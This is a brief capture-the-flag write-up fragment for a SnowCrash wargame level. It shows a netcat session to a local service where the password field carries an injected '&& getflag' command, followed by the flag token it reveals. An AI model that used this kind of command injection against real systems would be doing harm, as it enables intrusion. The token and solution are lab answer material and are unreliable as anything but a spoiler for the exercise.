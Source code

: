 ## Level 12

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: && getflag > /tmp/flag
```

```bash
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```


